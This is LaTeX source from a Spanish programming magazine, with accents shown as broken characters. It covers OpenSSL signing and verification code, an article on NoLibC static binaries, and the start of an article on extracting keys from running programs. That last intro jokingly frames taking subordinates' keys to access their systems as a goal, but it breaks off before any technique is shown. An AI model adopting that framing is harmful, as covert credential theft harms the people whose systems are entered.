    ERR_print_errors_fp (stderr);
    exit (1);
  }
  /* ------------------------------------- */
  
  /* PASO 4 Imprime firma en consolal */
  /* ------------------------------------- */
  fwrite (sig, 1 , sig_len, stdout);
}
\end{lstlisting}

Como pod�is ver el c�digo es muy sencillo y lo podemos dividir en cuatro
pasos:

\begin{itemize}

\item
  La primera parte lee la clave privada del fichero que pasamos como
  primer par�metro. Este es el mismo c�digo que usamos en el art�culo
  sobre
  \href{https://ibolcode.net/roor/2024-07-cifrado-asimetrico-con-openssl}{cifrado
  asim�trico}.
\item
  La segunda parte configura el algoritmo de hash que queremos usar y
  que pasamos como segundo par�metro. Este c�digo tambi�n lo vimos en el
  art�culo sobre
  \href{https://ibolcode.net/roor/2019-02-calculando-hashes-en-tus-programas-con-openssl}{hashing}.
\item
  El tercer paso es el cifrado del mensaje. Este c�digo es nuevo, pero
  deber�a resultaros muy familiar. Lo veremos en detalle en un segundo.
\item
  El cuarto paso consiste en volcar la forma en la consola al estilo
  {\verb!openssl!}, es decir, los datos binarios para
  procesarlos con herramientas externas si fuera necesario.
\end{itemize}

\begin{entradilla}
{\em OpenSSL nos ofrece un interfaz muy f�cil de usar para firmar cualquier tipo de informaci�n digital.}
\end{entradilla}

Utilizando los ficheros que usamos en la introducci�n con la utilidad
{\verb!openssl!} podemos verificar que nuestro programa
funciona correctamente, de la siguiente forma:

\begin{lstlisting}
$ gcc -O0 -g -o firmado firmado.c -lcrypto -lssl
$ ./firmado berto.pem sha256 factura.txt | xxd -p
94dbb4f53a85bb2e33d8c912f269767f792346cd00ce8daa29d8434373e5
aad9295680a58953a79935d7d28b849ac7efd1cefc8524fb50405d21f835
edccdeca858de8594e52cd0805ef37804ca7b2c77cacc4e7ce83e67e5ae9
b0c91b3974aefefe3ecc162d2da9343f622bfd3e648eaf29ce7a8e833e52
e132350d01b5945fb56037555f7052bc14ada4d1af9ed0267cdc532c50c3
5c907f2394adead8ed2a2834bfe008607c254a8c10a0b4dbfe1d1a9f68ba
6b28d74dadf22d8bdee35f9c5c1f21308d0b56ddac0f1596df2b28411f5a
bedf4264a0ee7814954b1ed2bfbdff13b45376fd3fe37de670a32acbd7d0
385f529d5223b1ecdff968833a766048
$ openssl dgst -sha256 -sign berto.pem factura.txt | xxd -p
94dbb4f53a85bb2e33d8c912f269767f792346cd00ce8daa29d8434373e5
aad9295680a58953a79935d7d28b849ac7efd1cefc8524fb50405d21f835
edccdeca858de8594e52cd0805ef37804ca7b2c77cacc4e7ce83e67e5ae9
b0c91b3974aefefe3ecc162d2da9343f622bfd3e648eaf29ce7a8e833e52
e132350d01b5945fb56037555f7052bc14ada4d1af9ed0267cdc532c50c3
5c907f2394adead8ed2a2834bfe008607c254a8c10a0b4dbfe1d1a9f68ba
6b28d74dadf22d8bdee35f9c5c1f21308d0b56ddac0f1596df2b28411f5a
bedf4264a0ee7814954b1ed2bfbdff13b45376fd3fe37de670a32acbd7d0
385f529d5223b1ecdff968833a766048
\end{lstlisting}

Como pod�is ver el contenido del fichero de firma (antes de convertirlo
a base64) es el mismo que el generado por nuestro programa. Echemos un
ojo al c�digo para cerrar esta secci�n:

\hypertarget{proceso-de-firmado}{%
\sectiontext{white}{black}{PROCESO DE FIRMADO}\label{proceso-de-firmado}}

Como sucede con la mayor�a de funciones {\verb!EVP_!}
que ya hemos visto, el proceso de firmado, funciona b�sicamente como el
proceso de generaci�n de un hash. De hecho, eso es lo que el programa
hace, excepto por la �ltima llamada. Veamos como funcionan las tres
funciones que nos interesa :

\begin{lstlisting}[language=C]
  EVP_get_digestbyname (argv[2]);
  mdctx = EVP_MD_CTX_create ();
  
  EVP_SignInit (mdctx, md);
   ...
\end{lstlisting}

Como es t�pico con el interfaz {\verb!EVP_!}, lo
primero que tenemos que hacer es inicializar el contexto. En este caso,
la inicializaci�n es exactamente la misma que usamos para generar
hashes, pero utilizando {\verb!EVP_SignInit!} en lugar
de {\verb!EVP_DigestInit!}. El par�metro m�s
importante para la inicializaci�n es la funci�n hash y el contexto para
calcularlo que obtenemos con las funciones
{\verb!EVP_get_digestbyname!} y
{\verb!EVP_MD_CTX_create!}.

\begin{entradilla}
{\em El proceso de verificaci�n de firma digital es muy sencillo utilizando las funciones ofrecidas por OpenSSL}
\end{entradilla}

Una vez que hayamos inicializado nuestro contexto, solamente tendremos
que pasar el contenido del fichero que queremos firmar usando la funci�n
{\verb!EVP_SignUpdate!}, la cual funciona exactamente
igual que {\verb!EVP_DigestUpdate!}. El fragmento de
c�digo siguiente, nos muestra una posible forma de leer el contenido del
fichero a cifrar e introducir los datos para el c�lculo del hash.

\begin{lstlisting}[language=C]
 f = fopen (argv[3], "rb");
  unsigned char buf[1024];
  int           size;
  while (!feof (f)) {
    if ((size = fread (buf, 1, 1024, f)) <= 0) break;
    EVP_SignUpdate (mdctx, buf, size);
  }
\end{lstlisting}

Una vez que hayamos introducido todos los datos tenemos que llamar a
{\verb!EVP\_SignFinal!} la cual requiere un par�metro
m�s que {\verb!EVP\_DigestFinal!}, ese par�metro no es
otro que la clave privada que vamos a usar para la firma.

\begin{lstlisting}[language=C]
  unsigned char sig[1024];
  unsigned int  sig_len;
  
  EVP_SignFinal(mdctx, sig, &sig_len, priv_key)
\end{lstlisting}

N�tese que la firma final se realiza con el algoritmo asociado a la
clave. Si hemos utilizado una clave RSA 2048, la firma tendr� un tama�o
de 256 bytes (2048 bits), y el tama�o del hash tendr� que ser menor que
esos 2048 bits si no queremos perder informaci�n. Recordad que RSA
genera bloques cifrados del tama�o de la calve usada.

Como pod�is ver, las funciones {\verb!EVP\_Sign*!}
resultan muy convenientes para firmar mensajes, haciendo que el proceso
resulte muy sencillo.

\hypertarget{verificando-una-firma-digital}{%
\sectiontext{white}{black}{VERIFICANDO UNA FIRMA DIGITAL}\label{verificando-una-firma-digital}}

De la misma forma que OpenSSL nos ofrece funciones para el firmado de
mensajes tambi�n nos ofrece funciones para verificar si una determinada
firma digital es correcta o no. Como os pod�is imaginar disponemos de un
interfaz del tipo {\verb!EVP_!} y en este caso las
tres funciones que debemos usar tienen como prefijo
{\verb!EVP_Verify!}.

Aqu� ten�is el c�digo de un sencillo programa capaz de verificar si una
determinada firma digital es correcta. Pod�is usar este programa para
comprobar la firma generada usando la utilidad de l�nea de comando
{\verb!openssl!} al principio de este art�culo.

Aqu� ten�is el c�digo.

\begin{lstlisting}[language=C]
#include <openssl/evp.h>
#include <openssl/err.h>
#include <openssl/decoder.h>
#include <stdio.h>
#include <stdlib.h>


int main (int argc, char *argv[]) {
  OSSL_LIB_CTX *libctx = NULL;
  
  /* Manejo de Claves */
  OSSL_DECODER_CTX *dctx = NULL;
  EVP_PKEY_CTX     *pkctx = NULL;
  EVP_PKEY         *pub_key = NULL;
  
  /* Funci�n Hash*/
  const EVP_MD      *md;
  EVP_MD_CTX        *mdctx;

  if (argc != 5) {
    fprintf (stderr, "Usage:�\n%s public.pem hash-algo "
                     "input_file firma\n",
         argv[0]);
    exit (1);
  }
  libctx = NULL; /* Usa el contexto de librer�a por defecto */

  /* PASO 1: Adquirimos las claves para el firmado */
  dctx = OSSL_DECODER_CTX_new_for_pkey (&pub_key,
                    NULL, NULL, NULL,
                    EVP_PKEY_PUBLIC_KEY,libctx, NULL);

  /* Lee clave p�blica */
  FILE *f = fopen (argv[1], "rb");
  OSSL_DECODER_from_fp(dctx, f);
  fclose (f);
  OSSL_DECODER_CTX_free(dctx);

  /* PASO 2: Lee firma */
  int           size;
  int           esig_len = 0;
  unsigned char esig[1024];
  
  f = fopen (argv[4], "rb");
  if ((esig_len = fread (esig, 1, 1024, f)) < 0){
    fprintf (stderr, "Error leyendo firma digital\n");
  }
  fclose (f);

  /* PASO 3: creamos funci�n Hash */
  if ((md = EVP_get_digestbyname (argv[2])) == NULL) {
        ERR_print_errors_fp (stderr);
  }

  mdctx = EVP_MD_CTX_create ();

  /* PASO 4: Verificamos la firma*/
  if (EVP_VerifyInit (mdctx, md) <= 0) {
    ERR_print_errors_fp (stderr);
    exit (1);
  }

  f = fopen (argv[3], "rb");
  unsigned char buf[1024];

  while (!feof (f)) {
    if ((size = fread(buf,1,1024,f))<= 0)
       break;
    EVP_VerifyUpdate (mdctx, buf, size);
  }
  unsigned char sig[1024];
  unsigned int  sig_len;
    
  if (EVP_VerifyFinal(mdctx,esig, esig_len,
                      pub_key) <=0) {
    printf ("Firma incorrecta\n");
    exit (1);
  }
  printf ("Verificaci�n OK\n");
}
\end{lstlisting}

Como pod�is ver, el programa es exactamente igual al que hemos creado
para generar firmas digitales con dos salvedades.

\begin{itemize}

\item
  La primera es que tenemos que leer la forma en memoria para poder
  comprobar si es correcta
\item
  La segunda es que la funci�n
  {\verb!EVP_VerificaFinal!} recibe unos par�metros
  bastante diferentes a la funci�n
  {\verb!EVP_SignFinal!}.
\end{itemize}

Sobre la primera diferencia no hay mucho que decir, simplemente leemos
el fichero que recibimos como par�metro en memoria. Esa es la firma
digital en formato binario generada por nuestra aplicaci�n o por
{\verb!openssl!}.

Respecto de la segunda, {\verb!EVP_VerifyFinal!}
recibe como par�metro la firma que queremos verificar y la clave p�blica
de quien dice haber firmado el mensaje y nos devolver� 1 si la firma es
correcta y 0 sino. Recordad que {\verb!EVP_SignFinal!}
recib�a como par�metro un buffer en el que se almacenar�a la clave, una
variable para almacenar si tama�o y la clave \textbf{privada} para
generar la firma.

Ahora pod�is compilar este programa y comprobar que es capaz de
verificar firmas generadas con {\verb!openssl dgst!}.


\begin{lstlisting}
$ gcc -O0 -g -o verificador verificador.c -lcrypto -lssl
$ openssl dgst -sha256 -sign berto.pem -out firma1.sign \
> factura.txt
$ openssl dgst -sha256 -verify berto_publica.pem -signature \
> firma1.sign factura.txt
Verified OK
$ ./verificador berto_publica.pem sha256 factura.txt \
> firma1.sign
Verificaci�n OK
$ echo "FICHERO MODIFICADO" >> factura.txt
$ openssl dgst -sha256 -verify berto_publica.pem -signature \
> firma1.sign factura.txt
Verification failure
$ ./verificador berto_publica.pem sha256 factura.txt \
> firma1.sign
Firma incorrecta
\end{lstlisting}

\hypertarget{conclusiones}{%
\sectiontext{white}{black}{CONCLUSIONES}\label{conclusiones}}

En este art�culo hemos visto como utilizar OpenSSL para generar firmas
digitales de cualquier fichero que queremos usando las funciones
especiales que ofrece para estos menesteres. De la misma forma, hemos
aprendido como verificar si una firma digital es v�lida y hemos escrito
dos sencillos programas para generar firmas y verificarlas que funcionan
perfectamente con la utilidad {\verb!openssl!}. Seguid
sintonizados, en el pr�ximo n�mero vamos a continuar explorando el
extenso API que ofrece OpenSSL. \EOP

%\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}
\rput(5.0,-12.3){\resizebox{!}{25.1cm}{{\epsfbox{images/promo/promo02.eps}}}}
\raggedcolumns
\clearpage
\end{multicols}



\hypertarget{prog:nolibc1}{}\label{prog:nolibc}

\pagestyle{pvc}

\rput(9.9,-1.8){\resizebox{!}{13cm}{{\epsfbox{images/articulos/nolibc_header.eps}}}}

\vspace{2.5cm}
\psset{fillstyle=solid}
\psframe[fillcolor=black,opacity=0.7](2,-4.5)(17,0)



% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{14cm}{Programas sin Dependencias con NoLibC}}

\msubtitle{8cm}{Crea programas peque�os e independientes}

{\sf\color{white}{ por Richi C. Poweri}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\intro{introcolor}{Y}{a sab�is lo que nos gusta hacer que nuestros programas ocupen poco y
sean independientes. Para ello suele ser necesario deshacerse de la
librer�a C est�ndar y sustituirla por una versi�n m�s ligera como ulibc,
dietlibc o musl\ldots{} Otra alternativa es NoLibC.}

\begin{multicols}{2}

NoLibC es una librer�a C m�nima que se distribuye con el kernel Linux
desde la versi�n 5.1. La pod�is encontrar en las fuentes del kernel en
el directorio \verb!tools/include/nolibc!,
y la forma de usarla es muy sencilla. La librer�a fue concebida para
poder escribir peque�as aplicaciones de espacio de usuario con
dependencias m�nimas, algo que resulta �til para programas de usuario
relacionados con el desarrollo del kernel, como por ejemplo en los
discos RAM.

En esos casos, el sistema de ficheros final (el que est� en la unidad de
almacenamiento principal, normalmente el disco duro) todav�a no est�
disponible o no es necesario. El disco RAM puede incluirse para
inicializar ciertas cosas o simplemente como el �nico disco disponible
para ejecutar una aplicaci�n espec�fica. Este es el escenario para
muchos sistema embebidos. Por lo tanto, cuanto m�s peque�o sea el disco
RAM mejor (menos tiempo de carga), y para que el disco RAM sea peque�o,
los programas que contiene y sus dependencias tienen que serlo tambi�n.

\begin{entradilla}
{\em NoLibC fue inclu�da en el kernel Linux para desarrollar pequqe�os programas en espacio de usuario}
\end{entradilla}

La soluci�n a la que llegaron los desarrolladores del kernel es NoLibC.

\hypertarget{compilando-hola-mundo}{%
\sectiontext{white}{black}{COMPILANDO HOLA MUNDO}\label{compilando-hola-mundo}}

Para mostraros como funciona vamos a compilar el infame \emph{Hola
Mundo}. Algo tal que as�:

\begin{lstlisting}[language=C]
#include <nolibc.h>

int main () {
     puts ("Hello World!");
     return 0;
}
\end{lstlisting}

Los lectores m�s avispados habr�n observado que hemos incluido el
fichero {\verb!nolibc.h!} en lugar de el cl�sico
{\verb!stdio.h!}. Cuando compilamos usando NoLibC, ese
es el �nico fichero que tenemos que incluir.

Para poder compilar este programa necesitamos el directorio que
mencionamos anteriormente copiado en alguna parte de nuestro sistema de
ficheros. Nosotros lo hemos copiado en
{\verb!/opt/devel/nolibc!}

Y la forma de hacerlo ser�a con el siguiente comando:

\begin{lstlisting}
gcc -static -nostdlib -o hola hola.c -I/opt/devl/nolibc
\end{lstlisting}

donde:

\begin{itemize}

\item
  {\verb!-static!} indica que queremos generar un
  binario est�tico. Esto es solo a efecto de comparar el tama�o real del
  c�digo generado usando NoLibC
\item
  {\verb!-nostdlib!} le dice a
  {\verb!gcc!} que no queremos usar la librer�a
  est�ndar. Este flag se refiere al linkado de los famosos
  {\verb!crtX.o!} los cuales contienen la
  implementaci�n por defecto de la funci�n
  {\verb!_start!}.
\item
  {\verb!-I path!} le fiche a
  {\verb!gcc!} que use el path que pasamos como
  par�metro para buscar ficheros {\verb!.h!}
\end{itemize}

El comando anterior genera un binario tal que as�:

\begin{lstlisting}
$ ls -lh hola
-rwxr-xr-x 1 occams razor 33K Aug 13 16:04 hola
$ strip -s hola
$ ls -lh hola
-rwxr-xr-x 1 occams razor 27K Aug 13 16:04 hola
\end{lstlisting}

Un fichero est�tico de 33Kb que despu�s de pasarlo por
{\verb!strip!} se nos queda en 27Kb\ldots{} ni tan mal.
Aunque sabemos que podemos hacerlo mejor con otras librer�as, para usar
NoLibC, solo tenemos que copiar un directorio.

\hypertarget{profundizando-en-los-flags}{%
\sectiontext{white}{black}{PROFUNDIZANDO EN LOS FLAGS}\label{profundizando-en-los-flags}}

En la secci�n anterior os dijimos que
{\verb!-nostdlib!} nos permite eliminar la
implementaci�n de {\verb!_start!} que
{\verb!gcc!} usa por defecto. Veamos que pasa si
incluimos esa implementaci�n:

\begin{lstlisting}
$ gcc -static -nolibc -o hello1 hello1.c -I /opt/devel/nolibc
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/12/../../../x86_64
-linux-gnu/crt1.o: in function `_start':
(.text+0x1d): undefined reference to `__libc_start_main'
collect2: error: ld returned 1 exit status
\end{lstlisting}

Como pod�is ver, el problema es que la funci�n
{\verb!_start!} que viene por defecto con gcc espera
encontrar una funci�n llamada
{\verb!__libc_start_main!}\ldots{} pero esa funci�n
no est� disponible en NoLibC y el linker termina con un error.

Este es un mensaje de error lo suficientemente intrigante para que
profundicemos en como est� implementada NoLibC

\hypertarget{primer-vistazo}{%
\sectiontext{white}{black}{PRIMER VISTAZO}\label{primer-vistazo}}

Comenzaremos echando un vistazo a los ficheros que incluye:

\begin{lstlisting}
$ ls /opt/devl/nolibc/
Makefile          arch-i386.h      arch-powerpc.h
arch-x86_64.h     crt.h            nolibc.h
std.h             stdio.h          sys.h
unistd.h          arch-aarch64.h   arch-loongarch.h
arch-riscv.h      arch.h           ctype.h
signal.h          stdarg.h         stdlib.h
time.h            arch-arm.h       arch-mips.h
arch-s390.h       compiler.h       errno.h
stackprotector.h  stdint.h         string.h
types.h
\end{lstlisting}

Lo primero que nos llama la atenci�n es que toda la librer�a esta
implementada como fichero {\verb!.h!}. Lo siguiente que
nos llama la atenci�n es que parece que soporta las principales
arquitecturas, suponemos que al menos todas las arquitecturas soportadas
oficialmente por el kernel.

\begin{entradilla}
{\em NoLibC se distribuye como una serie de ficheros de cabecera que incluir en nuestros programas C}
\end{entradilla}

El fichero principal {\verb!nolibc.h!} simplemente
incluye el resto de fichero {\verb!.h!}, as� que no
tenemos porque incluir {\verb!stdio.h!} en nuestro
ejemplo anterior. El fichero contiene un extenso comentario con detalles
de la implementaci�n que os recomendamos leer en caso de que quer�is
utilizar esta librer�a. Una de las cosas que incluye son un par de
par�metros extra para la compilaci�n para generar binarios m�s peque�os:

\begin{lstlisting}
$ gcc -fno-asynchronous-unwind-tables -fno-ident -s -Os \
> -nostdlib hello1.c -o hello1 -I /opt/devel/nolibc/
\end{lstlisting}

donde:

\begin{itemize}

\item
  {\verb!-fno-asynchronous-unwind-tables!} que le dice
  a gcc que no genere cierta informaci�n de depuraci�n
\item
  {\verb!-s!} elimina la tabla de s�mbolos y la
  informaci�n de relocalizaci�n, es equivalente a
  {\verb!strip!}
\item
  {\verb!-Os!} optimiza para tama�o
\end{itemize}

El flag {\verb!-fno-ident!} ignora las directivas
{\verb!\#ident!} que se suele utilizar para copiar una
cadena en el segmento especial
{\verb!.comment!}\ldots{} En otras palabras elimina el
segmento {\verb!.comment!} que realmente no es
necesario para la ejecuci�n del programa.

\hypertarget{punto-de-entrada}{%
\sectiontext{white}{black}{PUNTO DE ENTRADA}\label{punto-de-entrada}}

Como dijimos anteriormente, NoLibC ofrece su propio punto de entrada,
esto es, su propia implementaci�n de la funci�n
{\verb!_start!}. Para el caso de la arquitectura
x86\_64 este es el c�digo en cuesti�n que pod�is encontrar en
{\verb!arch-86_64.h!}:

\begin{lstlisting}[language=C]
void __attribute__((weak, noreturn,
                   optimize("Os", "omit-frame-pointer")))
                   __no_stack_protector _start(void)
{
__asm__ volatile (
  "xor  %ebp, %ebp\n" /* zero the stack frame      */
  "mov  %rsp, %rdi\n" /* save stack pointer to     */
                      /*    %rdi, as arg1 of       */
                      /*    _start_c               */
  "and  $-16, %rsp\n" /* %rsp must be 16-byte      */
                      /*   aligned before call     */
  "call _start_c\n"   /* transfer to c runtime     */
  "hlt\n"             /* ensure it does not return */
);
__builtin_unreachable();
}
\end{lstlisting}

Como pod�is ver la funci�n solo prepara la pila para pasarla a la
funci�n {\verb!_start_c!}, la cual est� definida en
{\verb!crt,h!}\ldots{} Ya sab�is \emph{C Run-Time}. La
funci�n prepara la pila con los argumentos de la l�nea de comandos, las
variables de entorno y los vectores auxiliares necesarios para poder
ejecutar el programa, inicializa las tablas de constructores y
destructores, llamando a los primeros antes de
{\verb!main!} y a los segundos despu�s. Finalmente
(bueno, casi, justo antes de ejecutar los destructores) llama a
{\verb!_nolibc_main!} en lugar de
{\verb!__libc_start_main!}. Respecto a esta �ltima
llamada utilizan un truco bastante interesante para permitir las
distintas declaraciones de la funci�n {\verb!main!}.

\hypertarget{la-funciuxf3n-main}{%
\sectiontext{white}{black}{\texorpdfstring{LA FUNCI�N
\texttt{main}}{LA FUNCI�N main}}\label{la-funciuxf3n-main}}

La funci�n {\verb!main!}, formalmente, acepta tres
par�metros. Su prototipo es algo talque as�:

\begin{lstlisting}
int main (int argc, char *argv[], char *envv[]);
\end{lstlisting}

El primer par�metro {\verb!argc!} es el n�mero de
par�metros recibidos a trav�s de la l�nea de comandos. El segundo
par�metro {\verb!argv!} es un vector de cadenas de
caracteres conteniendo cada uno de esos par�metros. Pero hay un tercer
par�metro en el que recibimos un vector de cadenas de caracteres con las
variables de entorno asociadas a esta ejecuci�n. Si tenemos en cuenta
que la forma de ejecutar un nuevo proceso en Linux es utilizando la
llamada al sistema {\verb!execve!} todo toma bastante
sentido:

\begin{lstlisting}
int execve(const char *pathname,
              char *const _Nullable argv[],
              char *const _Nullable envp[]);
\end{lstlisting}

Si bien, esta es la declaraci�n formal, nadie la usa. Lo habitual es
obviar el �ltimo par�metro y, en los casos en los que no necesitemos
par�metros, tambi�n el resto. As� que es normal declarar
{\verb!main!} en nuestros programas de alguna de estas
maneras:

\begin{lstlisting}
 int main (int argc, char *argv[]);
 int main (void);
 
\end{lstlisting}

�Pero como es esto posible?. Bueno, la verdad que yo ni me lo hab�a
planteado hasta que vi est�s dos l�neas en el fichero
{\verb!crt.h!} de NoLibC

\begin{lstlisting}
/* silence potential warning: conflicting types for 'main'*/
int _nolibc_main(int, char **, char **) __asm__ ("main");
\end{lstlisting}

Modifiquemos ligeramente nuestro hola mundo para entender cual es el
problema:

\begin{lstlisting}[language=C]
#include <stdio.h>

void foo (int a, int b) {
  puts ("Foo");
}
int main () {
  puts ("Hola Mundo");
  foo (1, 2);
}
\end{lstlisting}

Si compilamos y ejecutamos el programa veremos que obtenemos:

\begin{lstlisting}
Hola Mundo 
Foo
\end{lstlisting}

En este caso, nuestra funci�n {\verb!foo!} no utiliza
ninguno de los par�metros, as� que tal si hacemos lo mismo que con
{\verb!main!}, simplemente obviamos el segundo
par�metro puesto que no lo usamos:

\begin{lstlisting}[language=C]
void foo (int a) { 
  puts ("Hola Mundo");
}
\end{lstlisting}

Si ahora intentamos compilar obtendremos:

\begin{lstlisting}
$ make hola
hola.c: In function 'main':
hola.c:22:3: error: too many arguments to function 'foo'
   22 |   foo (1, 1);
      |   ^~~
hola.c:14:6: note: declared here
   14 | void foo (int a) {
      |      ^~~
make: *** [<builtin>: hola] Error 1
\end{lstlisting}

Efectivamente, en el nuevo programa {\verb!foo!} est�
declarada como una funci�n que recibe un solo par�metro, pero nosotros
la estamos llamando con dos. Esto es exactamente lo que ocurre con
{\verb!main!}. La funci�n
{\verb!_start_c!} tiene que llamar a la funci�n
{\verb!main!} de nuestro programa con todos los
par�metros, sin embargo, el programador puede haber decidido usar una de
las declaraciones reducidas de {\verb!main!}. Y aqu� es
donde la famosa l�nea entra en juego.

\begin{lstlisting}[language=C]
int _nolibc_main(int, char **, char **) __asm__ ("main");
\end{lstlisting}

Esta l�nea esta realmente declarando un puntero a una funci�n y
asign�ndole el valor {\verb!main!}. De forma general,
la declaraci�n del puntero preserva el n�mero y tipo de par�metros para
hacer nuestra llamada, sin embargo, en lugar de apuntar a una funci�n C,
le asignan el s�mbolo {\verb!main!}, o en otras
palabras la direcci�n de memoria de la funci�n
{\verb!main!}. En modificamos nuestro ejemplo de forma
similar obtendr�amos:

\begin{lstlisting}[language=C]
#include <stdio.h>

void foo (int a) {
  puts ("Foo");
}
int main () {
  void mi_foo (int a, int b) __asm__ ("foo");
  puts ("Hola Mundo");
  mi_foo (1, 2);
}
\end{lstlisting}

Ahora podemos llamar a la funci�n {\verb!foo!} pasando
todos los par�metros del caso m�s general, aunque la hayamos declarado
usando menos.



\begin{entradilla}
{\em Leyendo el c�digo de NoLibC pod�is aprender algunos trucos interesantes}
\end{entradilla}





Para terminar con este tema una nota r�pida. Si declaramos la funci�n
como {\verb!void foo()!} no obtendremos errores de
compilaci�n aunque la llamemos directamente con varios par�metros. En C,
una lista de par�metros vac�a indica que la funci�n puede recibir
cualquier n�mero de par�metros, no que no recibe par�metros. Si
modificamos la funci�n talque as�
{\verb!void foo(void)!}, ahora si estamos indicando que
la funci�n no espera par�metros y obtendremos de nuevo el error.

\hypertarget{algunas-curiosidades-muxe1s}{%
\sectiontext{white}{black}{ALGUNAS CURIOSIDADES M�S}\label{algunas-curiosidades-muxe1s}}

NoLibC oculta algunas curiosidades m�s que pueden resultar de lo m�s
interesante para aquellos de vosotros que quer�is profundizar en como
funcionan los programas a bajo nivel. Aqu� os dejamos una lista de cosas
que pod�is consultar:

\begin{itemize}

\item
  Los ficheros {\verb!arch_x86_64!} contienen c�digo
  ensamblador para las funciones {\verb!memcpy!},
  {\verb!memmove!} y {\verb!memset!}
  utilizando las instrucciones de manejo de cadenas de los procesadores
  intel
\item
  {\verb!stdio.h!} incluye el c�digo de una versi�n
  m�nima de {\verb!printf!} que nos puede resultar �til
  para reutilizar en algunos de nuestros programas
\item
  {\verb!stdlib.h!} contiene c�digo para la conversi�n
  entre n�meros y cadenas, adem�s de una implementaci�n de un
  {\verb!heap!} b�sico usando
  {\verb!mmap!}
\end{itemize}

Echando un ojo al c�digo de {\verb!stdlib.h!} vemos que
la implementaci�n del {\verb!heap!} no es la m�s
eficiente del mundo. Veamos en detalle como funciona.

\hypertarget{memoria-dinuxe1mica}{%
\sectiontext{white}{black}{MEMORIA DIN�MICA}\label{memoria-dinuxe1mica}}

Echemos un ojo a la implementaci�n de {\verb!malloc!}
de NoLibC:

\begin{lstlisting}[language=C]
struct nolibc_heap {
  size_t  len;
  char  user_p[] __attribute__((__aligned__));
};

...

static __attribute__((unused))
void *malloc(size_t len)
{
  struct nolibc_heap *heap;

  /* Always allocate memory with size multiple of 4096. */
  len  = sizeof(*heap) + len;
  len  = (len + 4095UL) & -4096UL;
  heap = mmap(NULL, len, PROT_READ|PROT_WRITE,
         MAP_ANONYMOUS|MAP_PRIVATE,
         -1, 0);
  if (__builtin_expect(heap == MAP_FAILED, 0))
    return NULL;

  heap->len = len;
  return heap->user_p;
}
\end{lstlisting}

Lo primero que vemos es que {\verb!malloc!} solo
reserva bloques de 4Kb, as� que si vuestro programa usa
{\verb!malloc!} para reservar memoria para peque�as
estructuras (como en el caso de una lista enlazada por ejemplo),
estaremos desperdiciando memoria a lo loco.

Lo siguiente que debemos comentar es que la memoria se reserva con
{\verb!mmap!} pasando como primer par�metro
{\verb!NULL!}. Esto significa que el kernel nos
devolver� un bloque de memoria disponible, pero sin seguir ning�n
criterio espec�fico, lo cual, en un programa que haga uso extensivo de
memoria din�mica, puede provocar un problema de fragmentaci�n de memoria
y por tanto de disponibilidad de la misma.

\begin{entradilla}
{\em Debemos tener en cuenta que NoLibC tiene ciertas limitaciones y no est� recomendada para cualquier tipo de aplicaci�n}
\end{entradilla}


As� que, a modo de conclusi�n, NoLibC no es una buena opci�n para
programas que utilizan {\verb!malloc!} a lo loco.
Obtendr�s un binario muy peque�o, pero el desperdicio de memoria en
tiempo de ejecuci�n ser� considerable.

\hypertarget{muxe1s-limitaciones}{%
\sectiontext{white}{black}{M�S LIMITACIONES}\label{muxe1s-limitaciones}}

Hay dos limitaciones m�s que debemos tener en cuenta si queremos
utilizar NoLibC. La primera es que no todas las llamadas al sistema
est�n implementadas. Espec�ficamente todo lo relaciona con la red no se
ha incluido todav�a.

En cierto modo, a�adir llamadas al sistema es m�s o menos trivial y se
espera que los desarrolladores del kernel las vayan incluyendo seg�n las
necesiten. En caso de que necesites alguna que no est� disponible,
siempre puede incluirla tu mismo, los fichero
{\verb!arch_XXX!} ofrecen funciones para hacer
llamadas al sistema, as� que normalmente solo tendr�s que escribir el
prototipo de la funci�n C y usar la funci�n adecuada reordenando los
par�metros.

La segunda limitaci�n tiene que ver con {\verb!errno!}
y hay un extenso comentario sobre este tema en
{\verb!nolibc.h!}. El problema es que
{\verb!errno!} es una variable global y por tanto es
necesario linkar junto cierto c�digo del nuestro programa y de NoLibC,
sin embargo, eso har�a todo el proceso m�s complejo. NoLibC fue
inicialmente convenida para peque�os programas normalmente contenidos en
un �nico fichero, as� que la soluci�n por la que se opt� fu� declarar
{\verb!errno!} como una variable est�tica visible en
cada fichero fuente.

La principal consecuencia de esto es que si nuestro programa tiene m�s
de un fichero fuente, cada uno de ellos tendr� su propia copia de
{\verb!errno!}. Siendo consciente de esto es posible
escribir c�digo que no tenga problemas, si bien, si nuestro programa
requiere varios ficheros fuente para compilarse, quiz�s NoLibC no sea la
mejor alternativa. \EOP
\end{multicols}
\rput(8.1,-4.1){\resizebox{!}{9.6cm}{{\epsfbox{images/promo/promo03.eps}}}}

\hypertarget{hacking:claves1}{}\label{hacking:claves}

\pagestyle{hacking}

\rput(7.9,-0.5){\resizebox{!}{5cm}{{\epsfbox{images/articulos/hacking_header.eps}}}}

\vspace{3cm}
\psset{fillstyle=solid}
\psframe[fillcolor=black,opacity=0.7](2,-4.5)(17,0)



% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{14cm}{�C�mo Extraer Claves de un Programa en Ejecuci�n}}

\msubtitle{8cm}{Usando t�cnicas de hackeo de juegos}

{\sf\color{white}{ por Yvil Yenius}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\intro{introcolor}{T}{odo buen genio diab�lico cuyo objetivo sea la dominaci�n absoluta del
mundo necesita ser capaz de controlar de cerca a sus esbirros y secuaces
para evitar ser traicionado como pasa en las pel�culas. A ver, esto es
de primero de genio diab�lico, pero se ve que en Hollywood no tienen esa
asignatura. En este art�culo os voy a contar como obtengo las claves de
mis secuaces para poder acceder a sus sistemas y asegurarme de que no
est�n conspirando contra mi.}

\bigskip

\begin{multicols}{2}



Para ilustrar esta t�cnica que he refinado durante varios a�os vamos a
utilizar un sencillo programa de ejemplo con el que mostrar, de forma
pr�ctica, el proceso completo de principio a fin.

El programa es el siguiente:

\begin{lstlisting}[language=C]
#include <stdio.h>
